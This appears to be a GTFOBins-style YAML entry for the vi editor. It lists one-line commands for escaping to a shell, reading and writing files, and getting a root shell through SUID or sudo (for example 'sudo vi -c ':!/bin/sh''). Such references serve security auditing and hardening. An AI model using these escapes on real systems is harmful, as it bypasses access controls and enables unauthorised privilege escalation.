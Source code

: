 ```yaml
---
functions:
  shell:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
    - description: This requires that vi is compiled with Python support.
      code: vi -c ':py import os;os.system("sh")'
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid:
    - code: ./vi -c ':!/bin/sh -p'
  sudo:
    - code: sudo vi -c ':!/bin/sh'
    - description: This requires that vi is compiled with Python support.
      code: sudo vi -c ':py import os;os.system("sh")'
---
```


